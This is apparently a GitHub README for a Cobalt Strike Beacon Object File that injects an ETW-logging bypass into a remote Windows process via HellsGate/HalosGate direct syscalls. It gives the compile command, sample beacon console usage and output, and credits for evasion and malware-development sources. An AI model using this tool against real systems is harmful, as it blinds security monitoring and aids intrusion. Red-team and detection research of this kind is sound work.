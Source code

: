 ## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  ![](images/injectEtw.png)

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass (Mass Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### HalosGate SysCaller
+ Reenz0h from @SEKTOR7net
  + Most of the C techniques I use are from Reenz0h's awesome courses and blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ @smelly__vx & @am0nsec ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + https://github.com/am0nsec/HellsGate 
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
